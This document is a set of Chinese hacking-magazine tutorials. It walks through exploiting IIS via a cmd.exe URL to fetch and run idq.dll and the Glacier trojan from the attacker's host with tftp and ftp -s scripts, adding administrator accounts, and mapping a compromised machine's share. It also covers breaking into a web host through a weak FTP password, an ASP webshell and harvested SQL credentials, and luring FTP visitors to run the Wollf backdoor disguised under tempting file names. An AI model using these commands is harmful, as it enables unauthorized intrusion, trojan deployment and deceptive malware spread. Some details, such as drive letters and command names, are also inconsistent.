tftpd32 是一个小巧的 FTP 服务器，运行它之前，建议关闭其它 FTP 服务器，保持 tftpd 运行，这时你的机器已经是一个 FTP 服务器了，如图 6 所示。



在浏览器地址栏里输入：  
`http://ip/scripts/ypy.exe?/c+tftp+-i+210.x.x.x+GET+idq.dll`

其中 210.x.x.x 是你自己的 IP。稍等片刻后你就可以用 ispc 来连接它了，如图 7 所示。



连接成功后，一般就有 system 权限了：

```
net user ypy 123 /add
net localgroup Administrators ypy /add
```

加入了一个密码为 123 的用户 ypy，还加进了 Administrators 组。

> **LOOK 注意**：不过，这里要提醒你一下，ispc 连接 idq.dll 得到的 shell 回显比较慢，你需要多按几次回车才行。

其实用 tftp 你不只可以用来上载 idq.dll 用 ispc 连接，还可以上载其它东西，比如 ncx99.exe，这要看你的喜好了。

### 4. 用 ftp 的 -s 选项实现自动下载木马

**道具：一个 FTP 服务器、冰河服务器端 G_server.exe**

找一个 FTP 服务器，将需上载的文件上传到 FTP 服务器上。先假设 ftp server 的 ip:210.x.x.x、username:ypy、password:123，冰河服务器端：G_server.exe 已经上载到 FTP 服务器上。  
编辑一个上载执行文件：

```
http://ip/scripts/ypy.exe?/c+echo+open+210.x.x.x>+up.txt
http://ip/scripts/ypy.exe?/c+echo+ypy>>+up.txt（>>号前不要有空格）
http://ip/scripts/ypy.exe?/c+echo+123>>+up.txt
http://ip/scripts/ypy.exe?/c+echo+get+G_server.exe>>+up.txt
http://ip/scripts/ypy.exe?/c+echo+quit>>+up.txt
```

然后执行文件：

```
http://ip/scripts/ypy.exe?/c+ftp+-s:up.txt
```

稍等片刻后执行冰河服务器端：

```
http://ip/scripts/G_server.exe
```

下面不用我说了吧。有人会问这里为什么不用 tftp 上载呢？因为用 tftp 上载木马服务器端这样的大块头成功率很小。而用 ftp 的 -s 参数来实现自动上载成功率很高。

### 5. 在目标机上映射肉鸡共享盘

**道具：一台 Windows 肉鸡、idq.dll、getadmin.exe**

先找一台 Windows 肉鸡。这台肉鸡必须有网络共享，其共享盘必须能完全控制，也就是说，能随意删除拷贝。

比如，肉鸡的地址为：210.x.x.x，帐号 administrator 密码为空，并且有一个共享盘 C$，我们先把肉鸡 C 盘映射到本地 X 盘，然后就把 idq.dll、getadmin.exe 直接拉到 X 盘去。

回到 IE，输入：`http://ip/scripts/ypy.exe?/c+net+use+\\210.x.x.x\ipc$++user:administrator`。这一步的目的是让目标机与肉鸡建立 IPC 通信，没有这一步，直接映射网络驱动器是很容易失败的。

再输入：`http://ip/scripts/ypy.exe?/c+net+use+Y:+\\192.168.0.1\C$`。这样，就把肉鸡的 E 盘映射为目标机的 Y 盘了。查看映射成功没有：`http://ip/scripts/ypy.exe?/c+dir+y:\`，如图 8 所示。



OK，现在可以把我们事先准备好的 idq.dll 和 getadmin.exe 依次复制到目标机上：

```
http://ip/scripts/ypy.exe?/c+copy+y:\idq.dll+c:\inetpub\scripts\
http://ip/scripts/ypy.exe?/c+copy+y:\getadmin.exe+c:\inetpub\scripts\
```

不要忘记断开映射盘：

```
http://ip/scripts/ypy.exe?/c+net+use+Y:+/del
```

好了，现在你有两个选择，一是用 ispc 连接 idq.dll 取得 system 权限，这种方法前面讲过了，我讲一下第二个选择，就是用 getadmin.exe 来提升权限。

我们需要把“IUSR_计算机名”这个帐号升级为 administrator（并不是每个站点都有“IUSR_计算机名”这个帐号）。假设这台计算机名为“servername”，那么我们可以这样做：

```
http://ip/scripts/getadmin.exe?IUSR_servername
```

这样所有的访问者都有了 Administrator 权限，然后我们再来新建一个用户名为 ypy，密码为 123 的用户：

```
http://ip/cgi-bin/cmd.exe?/c+c:\winnt\system32\net.exe+user+ypy+123+/add
```

然后再用 getadmin.exe 给 ypy 提升权限：

```
http://ip/scripts/getadmin.exe?ypy
```

OK，这种方法就讲到这里，只想让你能换一种思路，也就是说，上载东西到服务器也不是只有一条通道。

好了！就这么几种方法。我认为，关键不是方法，是思路，是你思考问题角度的变化，我想利用别的漏洞也一样的。

## 秘密潜入虚拟主机

紫幻

```
Server:
[XXX.207.159.133]: 端口:1433 开放: Microsoft-SQL-Server
[XXX.207.159.133]: 端口:3389 开放: Windows 2000 remote admin
[XXX.207.159.133]: 开放端口扫描完成，发现 8
```

一个 CGI 和 IIS 漏洞都没有。试过了 smtp 漏洞和 1433 溢出漏洞都没有成功，1433 sql 也不存在 SA 空口令，3389 也不存在输入法漏洞。初步确定 Win2000+sp3 这样的主机很难搞定，看来对方很安全。

2003 年第一期《黑客 X 档案》里刊登了一篇《一次针对虚拟主机的安全测试》的文章，作者写得非常好。不过他写的是关于 Win2000+php+mysql 的虚拟主机的渗透手段和技巧。当前一般虚拟主机采用 Win2000+asp+sql 这样的组合比较多，现在我就给大家讲一讲我是如何渗透这种虚拟主机的。

前一段时间我想在网上安家落户，准备做一个属于自己的个人主页，可是大家都知道做个人主页需要空间，现在的空间提供商鱼龙混杂，有的总是不安全，还有的服务不好，所以我要为自己挑选一个速度飞快，而且要相对比较安全，还要服务周到的网络空间提供商。

由于对方是空间提供商，FTP 用户应该非常地多，说不定就会有“弱智”的用户叫我有机会下手，我就调出了 X-scan 的 FTP 扫描功能，用自带的简单用户和简单密码的字典对其进行了扫描，果然不出我所料，一会儿就扫描出了一个用户名为“wang”、密码为“123456”的 FTP 弱口令，我马上拿出了 CuteFTP 进行了 FTP 连接，如图 1 所示。



图 1

由于本人擅长 asp 语言，所以还要挑选一个支持 asp 语言的主页空间。听朋友介绍有一家网络公司的虚拟主页空间还不错，是 Win2000+asp+sql 数据库的，100M 空间一年 200 元人民币还算便宜，于是我就来到了这家公司的主页，看到打开页面的速度还不错，我就打算和站点管理员取得联络准备买他的空间，仔细一想我还是对他的主机进行一下安全测试为好。我在网上认识的朋友都够“黑”的了，万一我的主页要是被……后果不敢想象啊，于是我就拿出了我的法宝，安全焦点的大作“X-scan”对该主机进行了一下简单的端口扫描，扫描的结果如下：

```
正在检测 "XXX.207.159.133"
[XXX.207.159.133]: 正在检测 开放端口
[XXX.207.159.133]: 端口 21 开放: FTP (Control)
[XXX.207.159.133]: 端口 25 开放: SMTP, Simple Mail Transfer Protocol
[XXX.207.159.133]: 端口 80 开放: HTTP, World Wide Web
[XXX.207.159.133]: 端口 110 开放: Pop3, Post Office Protocol - Version 3
[XXX.207.159.133]: 端口 53 开放: domain, Domain Name
```

这样我就拿到了这台主机上的一个普通 FTP 权限。我再建立了一个 asp 的文件夹，上传了一套海阳顶端网的 asp 木马。

在这里我先给大家介绍一下这款 asp 木马，它其实就是一个页面在线维护系统，把它上传到对方主机 WEB 目录下用浏览器打开就可以在线管理他所有的文件。可以修改、删除、在线编辑、复制、粘贴文件等等功能。这套海阳顶端网的 asp 木马一共有 7 个文件，一会儿工夫我就传到了 FTP 用户“wang”的主页目录下，如图 2 所示。

接着我就用浏览器打开刚才我上传的这套 asp 木马程序，如图

## 一个人的战争

3 所示。





哈哈，一下就看到了他的 WEB 所有目录和该主机上所有用户名和文件了。这样我就可以修改掉在该主机上所有网站的页面，不过我是不会那么做的，我真正的目的是要拿到这台主机的最高权限。于是我就在他的主机里面四处溜达，在“1939yn”用户的 index.asp 这个文件中我点击编辑，发现在 asp 的代码中有这么一句代码：

```
server=(local);uid=admin;pwd=2003!@#;database=football
```

这个正好是这台主机上的 sql 的用户名和密码。uid=admin 就是说明 sql 的用户名，pwd=2003!@# 就是密码。

在这里我给新手简单说明一下。微软的 sql 是数据库，它是链接在 asp 语言里的，只要主机开放 1433 端口就说明该主机采用的数据库类型是微软的 sql，所以在他的代码里只要看见上面那段代码就是用户名和密码。sql 支持远程管理，有了用户名和密码就可以在远程主机上添加用户。

由于手上没什么工具，我就用流光自带的 sql 远程管理命令：“工具”→“mssql 工具”→“远程管理命令”（也可以直接用键盘 Ctrl+Q 直接调出来），填上主机和用户名，密码点连接，如图 4 所示。



连接上以后出现“sqlcmd>”，然后直接用：net use zihuan ziHUAN /add 命令在对方主机添加一个用户名为“zihuan”，密码为“ziHUAN”的用户；再用 net localgroup administrators zihuan /add 命令把刚才添加的用户提升为管理员，如图 5 所示。



> **LOOK 注意** 由于 sql 远程管理输入命令会报错，只要仔细输入建立用户的命令就可以了。最后用 net user 命令查看一下，确信添加上用户就可以了。

到了这里渗透成功。刚才在扫描的时候发现对方还开启了 3389 终端服务，这个可是我的最爱，图形界面的操作最清晰不过了。由于我使用的是 Windows 2000 server 操作系统，自带终端服务客户端，可以直接调出。填上主机的 IP 地址和刚才建立的“zihuan”用户连接上去，不一会远程主机的桌面就呈现在我的面前，如图 6 所示。



接下来的任务我就完成了。这个看似很安全的虚拟主机就这样被瞬间瓦解了，当然我也不会再买他的空间了。我在他主机的桌面上给他的主机管理员写了一封信，主要内容就是描述了他的主机漏洞所在，不知道他看完以后有什么感受，我想他一定是想给我一记“降龙18掌”。

> **LOOK 注意** 大家在渗透的时候一定要多动脑筋，不要看到没有明显漏洞就相信对方是安全的，像大型的虚拟主机一般傻瓜式 FTP 账号是很多的。

希望正在做网管和以后想做网管的读者看了会有一点启发，同样广大的“黑”迷们看完本篇能多学会点渗透的手段和技巧。

> **LOOK 注意** 现在存在这样安全隐患的主机还很多，本篇出于教育的目的，非法使用后果自负。

## 一个人的战争


### Fisher

上网时间长了，确实会有无聊的感觉，那就要自己“找乐”了。既然大家都尝过了攻击的乐趣，为何不静坐钓鱼台，来一个太公钓鱼，愿者上钩呢？

本文没有什么太高深的技术，目的只是为了说明这样一个道理：我们可以用另一个角度来思考问题，往往会有另一种“答案”。

- 任务：远程控制；
- 工具：Serv-U、Wollf、花生壳客户端服务；
- 平台：Windows 系统即可；
- 环境：校园网

注：选择校园网的原因只有一个，上网比较廉价，可以成天开机，钓鱼嘛，就要有耐心啊 :)

### 工具说明

Serv-U：用来提供 FTP 服务并记录来访者 IP；

Wollf：基于命令行的后门程序，相当好用，就像是一个小型的操作系统，但功能真令人喷鼻血。Wollf 可以远程登录，并且登录后就是超级用户权限，可以 Sniffer、键盘记录、查看系统信息、查杀、杀死进程、重新启动以及 DOS 能够实现的几乎所有的功能……真是好啊！

花生壳客户端服务：用于域名和 IP 的动态映射，其实就是申请一个域名，但这个域名所对应的 IP 可以随主机 IP 的改变而改变，比较适用于让拨号上网这种没有固定 IP 的用户来提供网络服务（有点类似于灰鸽子的更新注册域名的 IP 地址一样）。在 www.oray.net 注册后，就会有 ***.vicp.net 这样的动态域名。在这里花生壳客户端服务的作用只是为了不让别人一下子看出你的 IP 来。

### 一、垂钓

我的主机处在校园网中，在这种环境下有很多人用 FTP 扫描器，例如 SFTP 扫描器来寻找 FTP 资源，所以只要我们开了 FTP，自然有很多“鱼”登录到我的 FTP 上，我们所要做的就是记录来访者的 IP，并把 Wollf 改成一个诱人的名字，让对方下载并执行，也就是让“鱼”自己咬钩，然后根据记录上的 IP 用 Wollf 登录上去……

> 注意：由于 Wollf 不易被杀毒软件查杀并且是“鱼”自己咬钩，通常不会被怀疑是“木马”。

### 二、撒网捕鱼

如果你没有校园网这种“自动咬钩”的钓鱼场，那么可以进入聊天室，发布你的 FTP 地址来撒网主动捕鱼。可是直接用 FTP://IP 发布太危险了，而且被信任的程度也不高，所以就要用到花生壳客户端服务程序进行域名和 IP 的映射，然后发布 FTP://DOMAIN 就可以了。

好了，让我们来看看具体是如何实现的吧。

1、配置 Serv-U，使 Serv-U 能够让匿名（anonymous）用户自动进入提供 FTP 资源的目录（也就是以后 Wollf 所在的目录，以下简称为“FTP 资源目录”），并配置 Serv-U 的记录文件来记录来访者 IP。如何配置记录文件如图 1 所示。可见，记录文件是在 D:\Program Files\Serv-U 目录内的 log.log 文件。



图 1

> 注意：日志文件可预先建立，也可在上述方法设置好之后，等 Serv-U 自动生成 log.log。  
> 补充：关于 Serv-U 的配置可以参考其他的文章，其实我们所需要使用的功能很简单，几乎不需要对 Serv-U 进行过多的设置，只要改一改文件路径就可以了。但要注意读／写权限问题。

每次日志文件就是密密麻麻一片，我们如何分析是哪个 IP 做了什么事呢？下面我们来对日志进行一下分析。

```
[5] Sat 18Jan03 23:14:21. - (000314) Connected to 211.4.*.* (Local address 210.5.*.*)
[5] Sat 18Jan03 23:14:21 - (000314) ANONYMOUS logged in, password: S**@SINA.COM
[5] Sat 18Jan03 23:14:21 - (000314) Sending file d:\足球在球门线上，笑死我了.mpg
[5] Sat 18Jan03 23:14:21 - (000314) IP-Name: *
[5] Sat 18Jan03 23:14:59 - (000314) Closing connection for user ANONYMOUS (00:00:38 connected)
```

以上是我从 log.log 中截取的一小段日志文件，可以看出第一行的 211.4.*.* 是他的 IP 地址，而 210.5.*.* 是我的 IP 地址，000314 是 Serv-U 自动分配给来访用户的 ID 号，凡是带有（000314），就是 IP 为 211.4.*.* 的计算机的行为。最后一行是 211.4.*.* 断开连接。

2、把 Wollf 复制、粘贴到刚才指定的 FTP 资源目录，然后改为一个诱人的名字，如：“精品”、“不看后悔”、“绝密资料”等名字，这就是发挥各位的聪明才智了，呵呵。然后就等待“鱼”上钩了！

> 注意：在 FTP 资源目录下，最好还有其它的一些文件来作幌子，如图片、歌曲等等。如果只有一个文件容易被怀疑，不过也不能太多哟！

3、静静地听首歌，Waiting……如果你急于抓到“鱼”的话，建议用“撒网捕鱼”。

首先到 www.oray.net 注册用户，然后申请域名。再打开花生壳客户端服务程序，填入刚申请过的用户名和密码，如图 2 所示。

